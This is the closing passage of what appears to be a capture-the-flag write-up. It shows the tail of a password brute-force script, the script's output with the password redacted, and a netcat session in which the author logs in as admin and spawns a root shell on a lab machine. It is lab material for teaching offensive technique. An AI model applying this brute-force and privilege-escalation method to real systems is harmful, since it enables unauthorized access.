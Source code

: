 ```python
        thread.join()


if __name__ == "__main__":
    main()
```
{: file="brute_force_pass.py"}

By running the script, we successfully discover the password.

```console
$ python3 brute_force_pass.py
[+] Password found: [REDACTED]
```

Now, using the password obtained along with the `admin` input, we can elevate our connection to `admin`.

```console
$ nc 10.10.98.190 8000
admin
Password:
[REDACTED]
Welcome Admin!!! Type "shell" to begin
```

After that, by sending the `shell` input to spawn a shell, we see that we obtain a shell as the `root` user and can read the root flag.

```
shell
# id
id
uid=0(root) gid=0(root) groups=0(root)
# wc -c root.txt
wc -c root.txt
33 root.txt
```


<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}

</style>